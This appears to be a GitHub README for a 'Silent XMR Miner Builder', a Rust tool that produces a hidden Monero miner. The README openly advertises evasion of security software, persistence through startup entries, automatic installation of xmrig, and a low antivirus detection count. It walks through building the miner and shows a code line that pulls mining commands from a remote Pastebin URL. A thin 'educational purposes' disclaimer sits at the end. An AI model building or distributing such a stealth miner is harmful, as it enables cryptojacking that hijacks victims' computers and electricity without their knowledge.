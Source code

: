 # Silent XMR Miner Builder

Welcome to the **Silent XMR Miner Builder**! This tool lets you create a silent miner for Monero (XMR), which runs quietly in the background and is designed to avoid detection by security software. The builder allows you to customize and build your own miner executable, which you can configure to mine using your specific xmrig commands.


## Features:
- **Startup**: It adds miner to startup.
- **Instalation**: Intsalls xmrrig if not yet intsalled.
- **3 Detection on virus tottal**: [https://www.virustotal.com/gui/file/fe23ce5ded67a1c139300b3068166dccf0bcd8c2350e3b882a4e756473651d57](https://www.virustotal.com/gui/file/fe23ce5ded67a1c139300b3068166dccf0bcd8c2350e3b882a4e756473651d57)
- **Free to Use**: The miner builder is open-source and available at no cost.
- **Custom Configuration**: Users must create their own xmrrig configuration.

## Prerequisites:
To build and run this project, you need to have **Rust** installed.

### Installing Rust:
1. **Download and Install Rust**:
   - Go to the official Rust installation page: [https://www.rust-lang.org/tools/install](https://www.rust-lang.org/tools/install).
   - Follow the instructions for your operating system. Rust can be installed via **rustup**, a tool that helps manage Rust versions and associated tools.
## Verify Installation:

After installation, check that Rust is installed properly by running this command:

```bash
rustc --version
```
You should see something like this:

```bash
rustc 1.65.0 (897e37553 2022-11-02)
```
### Clone the Repository:

First, clone this repository to your local machine using Git and navigate into the project directory.
```bash

git clone https://github.com/yourusername/silent-xmr-miner.git
cd silent-xmr-miner
```

### Create Your Pastebin:

Go to Pastebin and create a new paste with your XMRig mining command. This will include things like the pool address and your wallet address.
Once your paste is created, copy the raw URL.
For example, your URL might look like this:
`https://pastebin.com/raw/yourpastebinid`

### Update the Code:

Open the source code file and replace the URL in the specified line with your own Pastebin link.

```bash
let process_config = client.get("https://pastebin.com/raw/yourpastebinid")
    .send()
    .unwrap()
    .text()
    .unwrap_or_default();
```

### Build the Project:

In the terminal, inside the project directory, run the build command to compile the project in release mode.
```bash
cargo build --release
```

## A Few Important Things to Keep in Mind:

- **Customization**: Make sure your Pastebin contains the correct configuration for XMRig to mine with your pool address and wallet.
- **Be Responsible**: Only use this tool on systems where you have permission to run mining software.

## Disclaimer:

This tool is provided as-is, and it’s for educational purposes only. Please use it responsibly and make sure you have permission to mine on the system you’re using.

